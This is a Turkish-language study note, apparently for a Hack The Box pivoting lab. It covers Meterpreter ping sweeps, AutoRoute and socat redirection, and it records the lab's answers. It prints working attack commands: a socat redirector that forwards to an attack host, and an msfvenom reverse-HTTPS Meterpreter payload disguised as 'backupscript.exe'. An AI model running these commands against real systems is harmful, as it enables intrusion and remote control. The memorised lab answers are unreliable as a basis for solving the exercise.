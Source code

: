 * Msfconsole ayarlarını yapıyoruz . LHOST --> 0.0.0.0   LPORT --> 8080    
* use exploit/multi/handler

Payload'u çalıştırdıktan sonra Meterpreter oturumunun başarıyla kurulduğundan emin olmamız gerekir.

![Pasted image 20241004222526.png](/img/user/resimler/Pasted%20image%2020241004222526.png)

Windows hedefinin 172.16.5.0/23 ağında olduğunu biliyoruz. Dolayısıyla, Windows hedefindeki güvenlik duvarının ICMP isteklerine izin verdiğini varsayarsak, bu ağ üzerinde bir ping taraması yapmak isteriz. Bunu, Ubuntu hostundan 172.16.5.0/23 ağına ICMP trafiği oluşturacak olan ping_sweep modülü ile Meterpreter kullanarak yapabiliriz.

```shell-session
(Meterpreter 1)(/home/ubuntu) > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
[+] 	172.16.5.19 host found
[+] 	172.16.5.129 host found
```

extra
![Pasted image 20241004223935.png](/img/user/resimler/Pasted%20image%2020241004223935.png)

Cevap : 172.16.5.19,172.16.5.129



Soru2: AutoRoute'un eklediği rotalardan hangisi 172.16.5.19'un saldırı hostundan erişilebilir olmasını sağlar? (Format: x.x.x.x/x.x.x.x)

Cevap : 172.16.5.0/255.255.254.0

Sonra Çöz bu odayı sonra 


### Reverse Shell ile Socat Redirection (yönlendirme)
[Socat](https://linux.die.net/man/1/socat), SSH tünelleme kullanmaya gerek kalmadan 2 bağımsız ağ kanalı arasında pipe soketleri oluşturabilen çift yönlü bir aktarım aracıdır. Bir host ve portu dinleyebilen ve bu verileri başka bir IP adresine ve porta iletebilen bir redirector görevi görür. Metasploit'in listener'ını saldırı hostumuzda geçen bölümde bahsettiğimiz komutu kullanarak başlatabilir ve Ubuntu sunucusunda socat'ı başlatabiliriz.

#### Starting Socat Listener
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
Socat, localhost'ta 8080 numaralı portu dinleyecek ve tüm trafiği saldırı hostumuzdaki (10.10.14.18) 80 numaralı porta yönlendirecektir. Redirector'ümüz yapılandırıldıktan sonra, Ubuntu sunucumuzda çalışan redirector'ümüze geri bağlanacak bir payload oluşturabiliriz. Ayrıca saldırı hostumuzda bir dinleyici başlatacağız çünkü socat bir hedeften bağlantı alır almaz, tüm trafiği saldırı konağımızın dinleyicisine yönlendirecek ve burada bir shell alacağız.

#### Creating the Windows Payload
```shell-session
M1R4CKCK@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```
Bu payload'u Windows host'a aktarmamız gerektiğini unutmayın. Bunu yapmak için önceki bölümlerde kullanılan tekniklerden bazılarını kullanabiliriz.
